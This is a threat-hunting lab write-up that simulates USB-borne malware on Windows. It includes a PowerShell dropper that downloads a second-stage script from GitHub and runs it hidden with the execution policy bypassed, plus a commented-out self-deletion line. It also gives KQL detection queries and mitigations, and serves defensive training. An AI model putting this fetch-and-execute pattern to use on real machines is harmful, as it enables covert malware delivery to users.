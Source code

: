 # Threat Event (USB Malware Execution via PowerShell)

**USB Device Triggers Malicious PowerShell Invoke-WebRequest Payload**

---

## Pre-steps:

I. **Created PowerShell simulation scripts to mimic malware behavior:**

* [`usb-mount.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-mount.ps1) – Simulates USB device insertion by mounting `E:\Payload`.
* [`malicious-usb-launcher.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/malicious-usb-launcher.ps1) – PowerShell-based dropper that retrieves and executes a payload.
* [`fake-malware.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/fake-malware.ps1) – Simulated second-stage malware payload.
* [`usb-unmount.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-unmount.ps1) – Simulates USB removal by unmounting the payload drive.
* [`master-usb-malware-sim.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/master-usb-malware-sim.ps1) – Master script that automates the full simulation (mount → drop → execute → cleanup → unmount).

II. **Prepared the simulation environment:**

* Used `usb-mount.ps1` to mount a virtual USB payload directory (`E:\Payload`).
* Dropped `malicious-usb-launcher.ps1` into the mounted USB folder.
* Verified all scripts were staged for execution.

---

## Steps the "Bad Actor" Took to Create Logs and IoCs:

1. **Executed the attack simulation using `master-usb-malware-sim.ps1`:**

   * Orchestrated USB mount, launcher execution, cleanup, and unmount operations.

2. **The malicious launcher (`malicious-usb-launcher.ps1`) performed the following actions:**

```powershell
<#
.SYNOPSIS
    Simulates USB-delivered malware using PowerShell.
.DESCRIPTION
    Downloads a fake payload from an external source, waits to mimic stealth, then executes it.
#>

Write-Output "[*] USB device connected. Initializing..."
Start-Sleep -Seconds 5

Write-Output "[*] Downloading external payload to disk..."
Start-Sleep -Seconds 3
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/jason-p-nguyen/malware-sim/main/fake-malware.ps1" -OutFile "C:\Temp\payload.ps1"
Write-Output "[+] Payload saved to C:\Temp\payload.ps1"

Write-Output "[*] Waiting to avoid immediate detection..."
Start-Sleep -Seconds 10

Write-Output "[*] Executing payload using PowerShell..."
Start-Sleep -Seconds 2
Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Temp\payload.ps1"

Write-Output "[+] Payload launched. Continuing background operations..."
Start-Sleep -Seconds 5

Write-Output "[*] Cleaning up launcher evidence (simulated)..."
Start-Sleep -Seconds 2
# (Optional) Remove-Item -Path $MyInvocation.MyCommand.Path -Force

Write-Output "[✓] Simulation complete. USB payload execution mimicked."
```

3. **Payload (`fake-malware.ps1`) executed silently**, simulating second-stage activity such as command-and-control or system reconnaissance.

4. **Cleanup actions executed automatically**:

   * Deleted local artifacts (simulated).
   * Unmounted USB using `usb-unmount.ps1`.

---

## Tables Used to Detect IoCs:

| **Parameter**        | **Description**                                                                                                                                                          |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **DeviceFileEvents** | [Docs](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) — Detect creation/deletion of `.ps1` files from USB or temporary folders. |

\| **DeviceProcessEvents** | [Docs](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) — Detect suspicious PowerShell execution, including bypass flags or file launches. |

\| **DeviceNetworkEvents** | [Docs](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) — Detect outbound connections using PowerShell (e.g., to GitHub or remote command sources). |

---

## Related Queries:

```kql
// Detect PowerShell script execution
DeviceProcessEvents
| where DeviceName == "fin-w10-wks-8"
| where AccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = AccountName, FileName, FolderPath, ProcessCommandLine

// Detect file creation or deletion in TEMP or USB paths
DeviceFileEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, Account = InitiatingProcessAccountName, InitiatingProcessCommandLine

// Detect outbound web requests from PowerShell
DeviceNetworkEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine
```

---

## Created By:

* **Author Name**: Jason Nguyen
* **Author Contact**: [https://github.com/jason-p-nguyen](https://github.com/jason-p-nguyen)
* **Date**: July 3, 2025

---

## Additional Notes:

* USB-based attacks remain a common method for **initial access**, especially in **physical breach** or **red team** scenarios.
* PowerShell is often used due to its native capabilities, making it harder to detect if script logging is not enforced.
* Suggested mitigations:

  * Disable `Invoke-WebRequest`, `IEX`, and unsanctioned PowerShell use.
  * Use device control tools to restrict USB usage.
  * Apply `AllSigned` execution policies.
  * Monitor for anomalous script behavior and USB mount events.

---

## Revision History:

| **Version** | **Changes**                          | **Date**     | **Modified By** |
| ----------- | ------------------------------------ | ------------ | --------------- |
| 1.0         | Initial draft                        | July 3, 2025 | Jason Nguyen    |
| 1.1         | Refactored flow, added master script | July 3, 2025 | Jason Nguyen    |

